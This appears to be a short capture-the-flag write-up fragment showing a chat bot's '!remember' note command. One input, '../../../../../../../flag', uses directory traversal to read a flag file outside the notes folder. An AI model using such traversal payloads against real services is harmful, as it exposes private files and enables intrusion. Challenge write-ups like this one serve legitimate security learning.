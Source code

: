 `!remember abc` => We couldn't find a note called `abc.txt`! :(
`!remember ../../../../../../../flag` => FLAG
